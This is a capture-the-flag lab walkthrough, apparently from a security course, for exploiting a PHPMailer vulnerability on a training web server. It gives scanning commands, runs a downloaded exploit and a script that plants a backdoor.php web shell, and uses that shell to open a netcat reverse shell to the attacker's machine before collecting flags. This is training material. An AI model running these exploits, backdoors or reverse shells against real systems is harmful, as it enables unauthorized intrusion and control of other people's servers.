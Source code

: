 # **TARGET 1 Offensive WalkThrough**

## Overview

You are working as a Security Engineer for X-CORP, supporting the SOC infrastructure. The SOC analysts have noticed some discrepancies with alerting in the Kibana system and the manager has asked the Security Engineering team to investigate.

To start, your team needs to confirm that newly created alerts are working. Once the alerts are verified to be working, you will monitor live traffic on the wire to detect any abnormalities that aren't reflected in the alerting system.

You will then report back all your findings to both the SOC manager and the Engineering Manager with appropriate analysis.

>##### Note: This is a walkthrough detailing one method to exploit the vulnerable machine. Likewise, other methods have been explored. Read Team: Summary of Operation and the PowerPoint presentation to find more methods not specified in this walkthrough.

---

Tools:

- nmap

- wpscan

- google developers tool

- Q terminal

- Kali Linux

- ssh

- Bash Commands

- Mysql

- John the Ripper

- Python Script

---

## **Walkthrough**

1.  The existence of a Directory index was found while using Nikto to find vulnerabilities on the webserver

        nikto -C all -h 192.168.1.115

    ![2](/Images/4/2.PNG)

2. Several paths to explore are revealed with the use of Gobuster.

        gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -e -u http://192.168.1.115

    ![3](/Images/4/3.PNG)

3. Exploring `192.168.1.115/vendor/` with the browser, we found several important paths including four revealing the use of PHPMAILER.
    
    Open URL in the browser

        192.168.1.115/vendor/

    ![4](/Images/4/4.PNG)     
        
4. PATH: reveals the first flag.

    Double click link

        192.168.1.115/vendor/PATH

    **Flag1**

    ![5](/Images/4/5.PNG)

5. SECURITY.md: Reveals details of versions of the PHPMAILER.

    Double Click to open file on browser

    ![6](/Images/4/6.PNG)    

6. VERSION: Reveals the current version of PHPMAILER in use

    Double click link

    ![7](/Images/4/7.PNG)  

7. Search script to exploit vulnerability 

        searchsploit phpmailer

    ![8](/Images/4/8.PNG)  

8. Look at Python Script

        Open on browser the path `192.168.1.115/vendor/PATH`

    ![9](/Images/4/9.PNG) 

9. press "q" keyboard to quit view

10. Download the script to the current folder

        searchsploit phpmailer -m php/webapps/40968.sh

    ![10](/Images/4/10.PNG)

11. Authorize file to execute

        sudo chmod 777 40968.sh

12. run exploit

        ./40968.sh 192.168.1.115

    ![11](/Images/4/11.PNG)

13. Now we know the PHPMAILER can be exploited. We can find and use a more useful script that allow to create a shell to the vulnerable machine. Exploit.sh installs a backdoor.php file that give the capability to execute command injection attacks.

    [exploit.sh](/Resources/explot.sh)

14. We take a look at the script and customize it for this exploit. (change the URL for the target machine)

        nano exploit.sh

    ##### Note: Use "CTRL X", then "y", and "enter" (to exit nano)

    ![12](/Images/4/12.PNG)

16. Authorize file to execute

         sudo chmod 777 exploit.sh

17. Execute file

        ./exploit.sh

    ![13](/Images/4/13.PNG)

18. Backdoor.php let us run bash commands like netcat. We can use netcat to create a shell. First set netcat to lisent on kali machine

         nc -lnvp 4444

   ![14](/Images/4/14.PNG)

19. Next, we look at our own IP address to use it with netcat to call our kali machine from the exploited machine (Target 2). 

        ifconfig

   ![15](/Images/4/15.PNG)


20. We use our IP address with netcat to call our kali machine from the exploited machine (Target2). We insert the command throuht the browser

        192.168.1.115/backdoor.php?cmd=nc 192.168.1.101 4444 -e /bin/bash

    ##### Note: change the second IPaddress for your own 

    ![16](/Images/4/16.PNG)

20. Now we have access. We look for the second flag

        find /var/www -type f -iname 'flag*'

    ![17](/Images/4/17.PNG)

21. Open file

        cat /var/www/flag2.txt

    **flag2**

    ![18](/Images/4/18.PNG)

23. Look for others flags

        find -type f -iname '*flag*'

    ![19](/Images/4/19.PNG)

21. We found the file active on wordpress, so we go to that direction on the browser

        http://192.168.1.115/wordpress/wp-content/uploads/2018/11/flag3.png

    **flag3**
   ![20](/Images/4/20.PNG)